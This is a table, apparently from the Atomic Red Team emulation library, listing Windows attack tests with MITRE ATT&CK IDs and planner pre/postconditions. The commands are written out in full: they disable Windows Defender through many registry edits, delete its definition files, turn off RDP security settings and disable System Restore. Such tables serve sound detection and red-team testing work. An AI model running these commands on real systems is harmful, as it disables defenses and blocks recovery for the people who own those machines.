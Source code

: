 | 1f6743da-6ecc-4a93-b03f-dc357e4b313f | Tamper with Windows Defender Registry - Reg.exe | \['T1562.001'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Impair Defenses: Disable or Modify Tools'\] | Disable Windows Defender by tampering with windows defender registry using the utility "reg.exe"<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableBehaviorMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableIntrusionPreventionSystem" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableOnAccessProtection" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableRoutinelyTakingAction" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableScanOnRealtimeEnable" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Real-Time Protection" /v "DisableScriptScanning" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\Reporting" /v "DisableEnhancedNotifications" /t REG_DWORD /d "1" /f >NUL 2>nul \nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\SpyNet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d "1" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\SpyNet" /v "SpynetReporting" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\Software\\Policies\\Microsoft\\Windows Defender\\MpEngine" /v "MpEnablePus" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows Defender Security Center\\App and Browser protection" /v "DisallowExploitProtectionOverride" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\SOFTWARE\\Microsoft\\Windows Defender\\Features" /v "TamperProtection"  /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\software\\microsoft\\windows defender\\spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d "0" /f >NUL 2>nul\nreg add "HKLM\\Software\\Microsoft\\Windows Defender" /v "PUAProtection" /t REG_DWORD /d "0" /f >NUL 2>nul\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(windows_defender_disabled ?target - host)'\] |
| 3d47daaa-2f56-43e0-94cc-caf5d8d52a68 | Remove Windows Defender Definition Files | \['T1562.001'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Impair Defenses: Disable or Modify Tools'\] | Removing definition files would cause ATP to not fire for AntiMalware. Check MpCmdRun.exe man page for info on all arguments.<br>On later viersions of windows (1909+) this command fails even with admin due to inusfficient privelages. On older versions of windows the<br>command will say completed.<br><br>https://unit42.paloaltonetworks.com/unit42-gorgon-group-slithering-nation-state-cybercrime/<br> | {'executor': 'Elevated Command Prompt Executor', 'command': '"C:\\Program Files\\Windows Defender\\MpCmdRun.exe" -RemoveDefinitions -All\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(anti_malware_disabled ?target - host)'\] |
| 4b81bcfa-fb0a-45e9-90c2-e3efe5160140 | Disable Remote Desktop Security Settings Through Registry | \['T1112'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Modify Registry'\] | A modification registry to disable RDP security settings. This technique was seen in DarkGate malware as part of its installation<br> | {'executor': 'Command Prompt Executor', 'command': 'reg add "HKEY_LOCAL_MACHINE\\Software\\Policies\\Microsoft\\Windows NT\\Terminal Services" /v "DisableSecuritySettings" /t REG_DWORD /d 1 /f\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(rdp_security_settings_disabled ?target - host)'\] |
| 1c68c68d-83a4-4981-974e-8993055fa034 | Windows - Disable the SR scheduled task | \['T1490'\] | ART | \['windows'\] | \['Impact'\] | \['Inhibit System Recovery'\] | Use schtasks.exe to disable the System Restore (SR) scheduled task<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'schtasks.exe /Change /TN "\\Microsoft\\Windows\\SystemRestore\\SR" /disable\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(system_restore_disabled ?target - host)'\] |